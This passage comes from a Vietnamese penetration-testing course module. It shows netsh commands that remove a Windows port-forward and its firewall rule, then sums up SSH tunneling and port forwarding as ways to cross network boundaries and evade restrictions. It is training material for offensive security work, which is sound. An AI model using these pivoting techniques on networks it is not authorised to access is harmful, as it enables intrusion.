C:\Users\Administrator>netsh advfirewall firewall delete rule name="port_forward_ssh_2222"

Deleted 1 rule(s).
Ok.
```

                                                      ***Listing 67 - Xóa firewall rule bằng Netsh.***

Lệnh hoàn tất thành công, và chúng ta nhận được xác nhận rằng firewall rule đã bị xóa.

Chúng ta cũng có thể xóa port forward mà mình đã tạo. Lần này, chúng ta sẽ dùng subcontext `netsh interface` để `del` portproxy mà chúng ta đã tạo. Chúng ta sẽ tham chiếu loại chuyển tiếp (v4tov4) và listenaddress cùng listenport mà chúng ta đã dùng khi tạo rule, để Netsh xác định rule nào cần xóa.

```
C:\Windows\Administrator> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64

C:\Windows\Administrator>
```

                                                ***Listing 68 - Xóa rule port forwarding bằng Netsh.***

Khi chúng ta xóa rule, chúng ta không nhận được phản hồi thành công. Tuy vậy, lệnh đã hoàn tất thành công, và rule đã được xóa.

*Hầu hết các lệnh Windows Firewall đều có các tương đương trong PowerShell với các cmdlet như `New-NetFirewallRule` và `Disable-NetFirewallRule`. Tuy nhiên, lệnh `netsh interface portproxy` thì không. Để đơn giản, chúng ta đã giữ nguyên việc sử dụng hoàn toàn các lệnh Netsh trong phần này. Tuy nhiên, đối với rất nhiều tác vụ enumerate và cấu hình Windows Firewall, PowerShell cực kỳ hữu ích. Bạn có thể muốn thử nghiệm với nó trong khi hoàn thành các bài tập của phần này.*

Trong phần này, chúng ta đã tạo một port forward trên Windows bằng lệnh Netsh. Chúng ta cũng đã tạo một firewall rule để cho phép lưu lượng inbound trên cổng lắng nghe của mình. Chúng ta đã dùng chúng kết hợp để tạo một port forward hoạt động từ giao diện WAN của MULTISERVER03 tới SSH server của PGDATABASE01.

---

# 5. Tổng kết

---

Trong Module này, chúng ta đã trình bày các khái niệm về port forwarding và SSH tunneling. Module này bao gồm các công cụ để áp dụng các kỹ thuật này trên cả hệ điều hành Windows và *NIX, cho phép chúng ta vượt qua các ranh giới mạng và né tránh một số hạn chế mạng phổ biến.